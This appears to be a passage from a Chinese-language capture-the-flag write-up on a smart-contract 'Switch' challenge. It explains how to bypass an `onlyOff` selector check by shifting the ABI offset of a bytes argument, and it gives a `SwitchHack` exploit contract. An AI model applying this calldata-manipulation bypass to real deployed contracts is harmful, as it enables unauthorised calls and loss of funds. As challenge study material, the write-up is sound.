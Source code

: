 `onlyOff` 中使用底层的 calldata 判断其中的 selector。而此时的 selector 编码在参数中，calldata 的编码布局大致为

| 当前调用 selector                                      | bytes4(keccak256("flipSwitch(bytes)") |
| ------------------------------------------------------ | ------------------------------------- |
| 参数 bytes memory _data 的起始 offset                  | bytes32(0x20)                         |
| bytes memory _data 的长度                              | bytes32(0x4)                          |
| bytes memory _data 的内容，也就是下一次调用的 selector | bytes4(keccak256("turnSwitchOff()")   |

如果继续使用这种布局，下一次调用的 selector 确实会被限制，但这里对参数 bytes memory _data 的起始 offset 并没有严格限制，因此可以修改 offset 并将 `_data` 的内容 (也就是下一步的 selector) 放在其他位置，从而绕过检测。

这里使用的布局是

| 当前调用 selector                                      | bytes4(keccak256("flipSwitch(bytes)") |
| ------------------------------------------------------ | ------------------------------------- |
| 参数 bytes memory _data 的起始 offset                  | bytes32(0x60)                         |
| 填充                                                   | bytes32(0)                            |
| 用于绕过检测的填充                                     | keccak256("turnSwitchOff()")          |
| bytes memory _data 的长度                              | bytes32(0x4)                          |
| bytes memory _data 的内容，也就是下一次调用的 selector | bytes4(keccak256("turnSwitchOn()")    |

```solidity
pragma solidity ^0.8.0;

import "forge-std/console2.sol";

contract SwitchHack {
    constructor(address _switch) {
        bytes memory _calldata = abi.encodePacked(bytes4(keccak256("flipSwitch(bytes)")),
                                                  bytes32(uint256(0x60)),
                                                  bytes32(uint256(0x0)),
                                                  keccak256("turnSwitchOff()"),
                                                  bytes32(uint256(0x4)),
                                                  bytes4(keccak256("turnSwitchOn()")));
        address(_switch).call(_calldata);
    }
}
```

